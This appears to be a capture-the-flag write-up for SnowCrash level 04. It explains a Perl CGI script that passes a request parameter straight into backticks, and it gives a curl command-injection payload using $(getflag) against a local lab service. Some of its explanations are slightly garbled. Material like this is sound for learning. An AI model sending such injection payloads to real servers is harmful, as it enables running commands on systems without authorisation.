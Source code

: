 # LEVEL 04
Ls into the current directory will output a .pl script.
Executing it will output a http header.

    level04@SnowCrash:~$ cat level04.pl 
    #!/usr/bin/perl
    # localhost:4747
    use CGI qw{param}; 
    print "Content-type: text/html\n\n";
    sub x {
      $y = $_[0];
      print `echo $y 2>&1`;
    }
    x(param("x"));

This script imports the param function from the CGI module which is used to retrieve parameters sent to the script.

The sub keyword is used to define a subroutine in which $y = $_[0} assigns the first parameter passed to the subroutine.
Backticks are used to execute a shell command.

Given the commented text at the top of the file, we can assume that the script is running on port `4747` on our localhost (current OS).

## Security weaknesses
1. command injection
This script is vulnerable to command injection. Since it directly uses the parameter value in a shell command without any sanitization or validation, an attacker could potentially execute arbitrary commands on the server. This is a major security risk.

    ```curl 'localhost:4747/?x=$(getflag)'```

2. Privilege Escalation
The privileges inherited when the Perl script (`perl`) executes depend on the user running the web server process (`localhost:4747` in this case).  The web server process (`perl` in this case) has read access to certain files or directories, it can execute commands that read and manipulate those files within its permissions

```
level04@SnowCrash:~$ ps -eo user,cmd | grep apache
    root     /usr/sbin/apache2 -k start
    www-data /usr/sbin/apache2 -k start
    www-data /usr/sbin/apache2 -k start
    www-data /usr/sbin/apache2 -k start
    www-data /usr/sbin/apache2 -k start
    www-data /usr/sbin/apache2 -k start
   ```